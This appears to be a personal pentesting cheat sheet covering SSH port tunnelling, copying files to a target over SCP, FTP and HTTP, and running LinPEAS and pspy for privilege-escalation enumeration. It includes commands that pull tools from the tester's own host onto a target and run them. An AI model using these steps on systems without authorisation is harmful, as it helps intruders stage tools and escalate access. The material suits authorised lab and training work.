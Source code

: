 ### Port tunneling
```bash
ssh -L <local_port>:localhost:<port> <target_username>@<target_ip> # Run on kali to forward a blocked port
```

### Copy files from/to the target
- SCP:
```bash
scp <username>@<ip>:<filename_in_user_directory> .
scp <filename> <username>@<ip>:<path>
```
- FTP:
```bash
python3 -m pyftpdlib -w -p 2121
```
```cmd
ftp # anonymous and empty pass
open <ip> 2121
put <some_local_file>
```
- HTTP:
```bash
sudo python3 -m http.server 80

wget http://<my_ip>/<filename>
curl http://<my_ip>/<filename> --output <filename>
```

## Autoenumeration _(LinPEAS)_
- Prepare:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O ./linpeas.sh

cp ~/pentesting-tools/linpeas/linpeas.sh ./linpeas.sh # Or my stored version
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```bash
./linpeas.sh > linpeas.txt
./linpeas.sh -a > linpeas.txt # Full search
less -r linpeas.txt
```

## Monitoring processes _(PSPY)_
- Prepare:
```bash
cp ~/pentesting-tools/pspy/pspy32 ./pspy

cp ~/pentesting-tools/pspy/pspy64 ./pspy # 64 bit version
cp ~/pentesting-tools/pspy/pspy32s ./pspy # 32 bit small version
cp ~/pentesting-tools/pspy/pspy64s ./pspy # 64 bit small version
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run:
```bash
./pspy # Needs process interrupt key to stop
```
